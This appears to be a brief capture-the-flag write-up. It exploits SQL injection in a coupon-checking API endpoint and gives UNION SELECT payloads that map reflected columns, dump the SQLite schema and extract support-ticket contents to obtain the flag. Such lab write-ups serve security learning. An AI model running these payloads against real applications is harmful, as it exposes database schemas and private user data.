

Daily challenge.
Hint: *Coupons for all.*

There is an endpoint which allows to check if a coupon is eligible - `/api/coupons/apply`.
This endpoint is vulnerable to SQL Injection. After sending a payload: `WELCOME10' ORDER BY 10-- -` in the JSON body, the response tells that coupon is not eligible.
In order this to work, the coupon must not be used.
After confirming the injection point, I used payload: `AAA' UNION SELECT 'a','b','c','d','e','f','g','h','i'-- -`, I confirmed that values - `b,c,d` are reflected. In order it to work, the coupon must be something that is not true.
Sending `AAA' UNION SELECT 'a',name,sql,'d','e','f','g','h','i' FROM sqlite_master-- -` reveals the build of the table.

`AAA' UNION SELECT 'a',group_concat(name),group_concat(sql),'d','e','f','g','h','i' FROM sqlite_master-- -` - reveals all table names.

Now, to retrieve the flag, I used:
`AAA' UNION SELECT 'a',group_concat(subject),group_concat(message),group_concat(staff_note),'e','f','g','h','i' FROM support_tickets-- -`

